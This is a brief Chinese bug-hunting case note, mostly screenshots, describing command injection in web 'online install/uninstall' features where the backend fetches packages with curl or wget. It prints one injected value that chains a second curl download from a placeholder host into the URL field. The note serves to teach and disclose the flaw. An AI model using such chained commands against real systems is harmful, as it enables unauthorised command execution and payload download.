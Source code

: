1、在线安装与卸载 这类功能  
![image](https://github.com/hbdxmz/BugHuntCase/assets/94107024/7c4b6390-1d10-46a6-8182-8db3a2a2f201)

2、后台实现可能是这样，使用wget或者curl去指定url下载安装包  
![image](https://github.com/hbdxmz/BugHuntCase/assets/94107024/144d9730-f0b1-489a-a147-97fca83cb76c)

3、通过可控的url拼接命令  
curl -SL  || curl http://wwww.aa.com -o /opt  

![image](https://github.com/hbdxmz/BugHuntCase/assets/94107024/277d2720-0280-43c4-8c1e-aa75802b4e38)

4、实现命令执行
![image](https://github.com/hbdxmz/BugHuntCase/assets/94107024/5d7e904b-f300-4e2b-97a7-fa9442138bf4)

